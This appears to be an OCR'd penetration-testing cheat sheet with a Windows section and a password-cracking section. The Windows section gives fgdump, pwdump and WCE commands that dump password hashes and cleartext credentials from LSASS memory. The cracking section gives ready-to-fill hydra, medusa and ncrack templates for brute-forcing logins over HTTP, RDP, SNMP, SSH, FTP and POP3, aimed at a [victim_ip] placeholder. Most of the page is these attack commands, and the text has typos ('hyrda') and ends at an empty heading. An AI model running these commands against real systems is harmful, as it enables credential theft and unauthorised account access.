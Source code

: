 ------------------------------------------------------------------------------------------------------------------------
# Windows  

- pwdump fgdump
MS Windows store hased user password in the ***Security account manager (SAM)***
pwdump and fgdump inject a DLL containning the hash dumping code into the ***Local Security Authority Subsystem (LSASS)***

***- c:\> fgdump.exe ***
***- c:\> type 127.0.0.1.pwdump ***

- WCE
- WCE can steal NTLM credentails from memory and dump clear text password
***- c:\> WCE -w ***

------------------------------------------------------------------------------------------------------------------------
# Password cracking

- HTTP
```
medusa -h [url] -u [user_name] -p [password_file.txt] -M http
- hydra [target_url] -l [user_name] -P [password_file] https-post-form 
/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
```
- RDP
```
ncrack -vv --user [user_name] -P [password_file.txt] rdp://[victim_ip]
```
- SNMP 
``` 
hydra -P [password-file.txt] -v [victim_ip] snmp
```
- SSH 
```
hydra -l [user_name] -P [password_file.txt] [victim_ip] ssh
hydra -l [user_name] -P [password_file.txt] ssh://[victim_ip]
```
- FTP 
```
hyrda -L [user_file] -p [password] [victim_ip] ftp
```
- POP3 
```
hyrda -L [user_file] -P [password_file.txt] [victim_ip] -s [victim_port] -t 50 -I pop3

Usefull flag
- -vV : verbose mode
- -e nsr : login as password or login as password in reversed order etc
- -t : threads
```
------------------------------------------------------------------------------------------------------------------------
# Password hash cracking
